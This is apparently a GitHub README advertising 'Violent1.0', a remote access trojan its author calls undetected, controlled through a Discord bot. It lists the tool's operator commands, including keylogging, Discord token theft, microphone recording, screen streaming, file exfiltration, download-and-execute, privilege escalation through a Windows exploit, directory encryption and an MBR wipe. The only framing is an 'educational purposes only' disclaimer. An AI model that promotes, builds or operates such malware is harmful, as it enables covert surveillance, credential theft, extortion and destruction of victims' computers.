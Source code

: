 # Violent1.0 (OUTDATED)
Vioent1.0 is a powerful UNDETECTED remote acces tool whit a lot features(troll features are included too).
Violent1.0 uses a discord bot to communicate with the attacker and can bypass the firewall with this.
And before someone asks, I am not going to release the loader.

i am not responsible for any damages. Use at your own risk.
!!!for educational purposes only!!!

![MOSHED-2022-2-15-17-43-2](https://user-images.githubusercontent.com/102999825/211176071-8a9022fc-ce6a-4543-ae5d-87108fa9593c.gif)

![Screenshot 2022-05-10 220929](https://user-images.githubusercontent.com/102999825/167713592-a6355a3d-59a9-4713-a635-c368b0529ee9.png)

```
COMMANDS: 
[GENERAL] 
.get                                     lists online clients 
.target {id}                             selects target 
.drop {id}                               unselects target 
.targetall                               selects every client 
.dropall                                 unselects every client 
				
[SPECIFIC] 
.getinfo                                 gets info about the slected target 
.screenshot                              makes screenshot 
.speak {text}                            the target hears a voice on his pc 
.processes                               lists processes 
.terminate {name}                        kills process 
.rotatescreen {screen} {orientations}    rotates screen (DEGREES_CW_0, DEGREES_CW_90, DEGREES_CW_180,  DEGREES_CW_270) 
.unrotatescreen                          unrotates all screens 
.volume {volume}                         sets audio volume 
.screencount                             counts monitors 
.download {link} {path}                  download file 
.execute {path}               		 executes program 
.hidefile {path}                         hides file 
.showfile {path}                         shows file 
.smallupload {path}                      only usefull for sth like a txt file (8mb) 
.bigupload {path}                        big boy upload(20gb) 
.tree {typeFilter} {wordFilter} {disk}   gets evry path from drive 
.sendtree                                stops tree and sends file 
.getdrives                               lists all drives 
.deletefile {path}                       deletes file 
.filesize {path}                         gets file size in bytes 
.panic                                   stops virus but it will run again after restart 
.spam {amount}                           spams cmd windows 
.wallpaper {link} {type}                 changes the wallpaper 
.recordmic {milliseconds}                records microphone 
.gettoken                                grabs discord token 
.playaudio {link} {type}                 plays audio file 
.amiadmin				 show if you have admin privileges
.tryescalate				 uses a windows exploit to gain admin privileges
.message {text}				 shows a messagebox
.startstream				 sends screenshot every second
.stopstream				 stops streaming
.startkeylogger				 starts keylogger
.stopkeylogger				 stops keylogger
.bsod					 bluescreens pc (requires admin priveleges)
.blockinput				 blocks m&k input (requires admin priveleges)
.unblockinput				 unblocks m&k input (requires admin priveleges)
.crit					 user can't terminate the process without crshing the pc (requires admin priveleges)
.uncrit					 uncrits process (requires admin priveleges)
.troll					 troll + bsod (requires admin priveleges)
.encrdir {path} {typeFilter}             encrypts directory (requires admin priveleges)
.decrdir {path} 	                 decrypts directory (requires admin priveleges)
.mbrkiller			         overwrites mbr (completely destroys windows) (requires admin priveleges)
.disabletaskmgr				 disables task manager
.enabletaskmgr				 enables task manager
				
[SYNTAX] 
Text:                                    '_' -> ' ' 
Path:                                    '*' -> ' ' 
Filter:                                  '#' -> ''
```
